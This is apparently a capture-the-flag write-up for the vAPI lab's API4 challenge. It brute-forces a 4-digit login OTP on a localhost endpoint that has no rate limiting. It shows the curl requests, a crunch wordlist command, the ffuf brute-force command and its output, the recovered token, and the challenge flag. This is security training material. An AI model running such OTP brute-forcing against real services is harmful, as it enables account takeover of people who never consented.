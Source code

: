 > We believe OTPs are a great way of authenticating users and secure too if implemented correctly!

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
crunch version 3.6
ffuf 2.1.0-dev
cat (GNU coreutils) 9.4
```

# Mobile Login
## POST /vapi/api4/login

As the Postman Collection provided gave an example mobile number as "8000000535", we will be using that.
```json
...
						"body": {
							"mode": "raw",
							"raw": "{\r\n    \"mobileno\":\"8000000535\"\r\n}"
						},
...
```

Attempt to login using the mobile number used as an example in the Postman Collection provided.
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a    \"mobileno\":\"8000000535\"\x0d\x0a}' \
    $'http://localhost/vapi/api4/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Wed, 26 Jun 2024 16:45:13 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:45:13 GMT
Content-Type: application/json

{"success":"true","msg":"4 Digit OTP sent on mobile no."}
```

# Verify OTP
## POST /vapi/api4/otp/verify

Since we do not have the mobile number used, we will not be receiving the OTP. 
However, we still want to log in.

An example of a 403 response for providing the wrong OTP:
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a    \"otp\":\"9999\"\x0d\x0a}' \
    $'http://localhost/vapi/api4/otp/verify'
```
```http
HTTP/1.1 403 Forbidden
Date: Wed, 26 Jun 2024 16:50:18 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:50:18 GMT
Content-Type: application/json

{"success":"false","cause":"Invalid OTP"}
```

Lets brute force the OTP.

Create an OTP wordlist using crunch.
```bash
crunch 4 4 1234567890 -o /home/kali/Desktop/OTP.txt
```
```
Crunch will now generate the following amount of data: 50000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

crunch: 100% completed generating output
```

Brute force the OTP and save any matched HTTP response(s).
```bash
ffuf -w /home/kali/Desktop/OTP.txt -X POST -H "Content-Type: application/json" -d '{"otp": "§§"}' -u http://localhost/vapi/api4/otp/verify -fc 403 -mode sniper -od /home/kali/Desktop/ffuf_responses -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/vapi/api4/otp/verify
 :: Wordlist         : FUZZ: /home/kali/Desktop/OTP.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"otp": "§§"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

[Status: 200, Size: 59, Words: 1, Lines: 1, Duration: 1791ms]
| URL | http://localhost/vapi/api4/otp/verify
| RES | 4e4e97da021366b653a445d25f762f0d
    * FUZZ: 1872

:: Progress: [10000/10000] :: Job [1/1] :: 22 req/sec :: Duration: [0:07:21] :: Errors: 0 ::
```
- Observe that there is no limit on how often we are able to call the API within a defined timeframe.
- Observe the OTP was found to be 1872 and the response is saved to "4e4e97da021366b653a445d25f762f0d".

View the matched fuff response file:
```bash
cat /home/kali/Desktop/ffuf_responses/4e4e97da021366b653a445d25f762f0d
```
```http
POST /vapi/api4/otp/verify HTTP/1.1
Host: localhost
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Content-Length: 15
Content-Type: application/json
Accept-Encoding: gzip

{"otp": "1872"}
---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache, private
Content-Type: application/json
Date: Wed, 26 Jun 2024 17:30:21 GMT
Date: Wed, 26 Jun 2024 17:30:21 GMT
Host: localhost
X-Powered-By: PHP/7.4.33

{"success":"true","key":"FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y"}
```
- Observe the request succeeded and the key is given in the response.

As specified in the Postman Collection, the test script to be executed for the API4 Verify OTP endpoint is used to derive the key (Authorization-Token) by parsing the JSON, selecting the value of "key" key and updates it in the Postman Environment as api4_key.
```js
var jsonData = JSON.parse(responseBody);
var api4_key = jsonData.key;
console.log("API 4 Key : "+api4_key);
postman.setEnvironmentVariable("api4_key",api4_key);
```

Manually derive the key from the 200 response.
```
FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y
```
- We will need the Authorization Token for the "Get Details" endpoint

# Get Details
## GET /vapi/api4/user

Get details using the key we found.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y' -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api4/user'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Wed, 26 Jun 2024 17:45:59 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 17:45:59 GMT
Content-Type: application/json

[{"id":1,"firstname":"john","lastname":"flag{api4_ce696239323ea5b2d015}"}]
```
- Observe we have acquired the details by brute forcing the OTP and getting the Authorization-Token using a mobile number that we do not own.

API4 Flag
```
flag{api4_ce696239323ea5b2d015}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa4-lack-of-resources-and-rate-limiting/
https://owasp.org/API-Security/editions/2023/en/0xa4-unrestricted-resource-consumption/